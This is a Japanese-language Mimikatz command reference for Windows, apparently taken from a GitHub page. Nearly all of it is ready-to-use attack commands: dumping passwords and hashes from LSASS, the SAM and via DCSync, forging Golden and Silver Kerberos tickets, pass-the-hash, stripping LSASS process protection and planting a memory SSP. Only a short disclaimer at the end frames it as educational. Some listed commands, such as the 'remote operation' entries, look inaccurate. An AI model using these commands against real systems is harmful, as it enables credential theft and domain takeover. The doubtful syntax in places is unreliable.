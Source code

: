 # Mimikatz Command Reference

**対応OS**: Windows

## 基本的な使用方法
```powershell
# 管理者権限でMimikatzを起動
mimikatz.exe

# モジュールのバージョン表示
mimikatz # version

# 特権の取得
mimikatz # privilege::debug
```

## パスワード抽出
```powershell
# メモリからパスワードを抽出
mimikatz # sekurlsa::logonpasswords

# キャッシュされたパスワードの抽出
mimikatz # lsadump::cache

# SAMからパスワードハッシュを抽出
mimikatz # lsadump::sam

# DCSyncを使用したハッシュの抽出
mimikatz # lsadump::dcsync /domain:domain.local /user:Administrator
```

## チケット操作
```powershell
# Kerberosチケットの表示
mimikatz # sekurlsa::tickets

# チケットのエクスポート
mimikatz # kerberos::list /export

# Golden Ticketの作成
mimikatz # kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21... /krbtgt:hash /ptt

# Silver Ticketの作成
mimikatz # kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21... /target:server.domain.local /service:SERVICE /rc4:hash /ptt
```

## パススルーハッシュ攻撃
```powershell
# パススルーハッシュの実行
mimikatz # sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:hash

# Over-Pass-the-Hashの実行
mimikatz # sekurlsa::pth /user:Administrator /domain:domain.local /aes256:hash
```

## 証明書操作
```powershell
# 証明書のエクスポート
mimikatz # crypto::certificates /export

# 証明書の操作
mimikatz # crypto::capi
mimikatz # crypto::cng
```

## メモリ保護のバイパス
```powershell
# メモリ保護の無効化
mimikatz # !+ 
mimikatz # !processprotect /process:lsass.exe /remove

# SSP の登録
mimikatz # misc::memssp
```

## リモート操作
```powershell
# リモートプロセスへの接続
mimikatz # @processname

# リモートコンピュータへの接続
mimikatz # exec-system "command"
```

## 注意事項
- このツールの使用は多くの場合、マルウェアとして検知されます
- システムのセキュリティに重大な影響を与える可能性があります
- 教育目的以外での使用は違法となる可能性があります
- 実環境での使用は絶対に避けてください 